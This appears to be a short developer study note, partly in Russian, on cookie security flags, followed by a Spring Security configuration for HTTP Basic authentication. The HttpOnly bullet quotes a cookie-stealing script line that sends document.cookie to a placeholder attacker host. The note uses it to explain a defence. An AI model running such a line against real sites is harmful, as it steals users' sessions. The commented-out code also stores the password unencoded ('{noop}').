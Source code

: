 - set cookie `Secure` (protects from man in the middle)
- `HttpOnly` недостуна из JavaScript. Защищает от атак `(new Image()).src = "http://evil.com/steal-cookie.php?cookie=" + document.cookie;`
- `SameSite=Strict`, нельзя посылать между разными доменами


```Java
    @Value("${spring.security.user.name}")
    private String username;

    @Value("${spring.security.user.password}")
    private String password;

    @Override
    public void configure(HttpSecurity http) throws Exception {
        http.authorizeRequests()
            .antMatchers("/**")
            .authenticated()
            .and().httpBasic(httpSecurityHttpBasicConfigurer -> {
                httpSecurityHttpBasicConfigurer.authenticationEntryPoint(new AuthExceptionEntryPoint());
            });
    }
// можно самим задать inMemoryAuth,
// можно проперти spring.security.user.name, spring.security.user.password прописать без этого закомментированного кода
//    @Autowired
//    public void configureGlobal(AuthenticationManagerBuilder auth) throws Exception {
//        auth.inMemoryAuthentication()
//            .withUser(username)
//            .password("{noop}" + password)
//            .authorities("ROLE_USER");
//    }
```
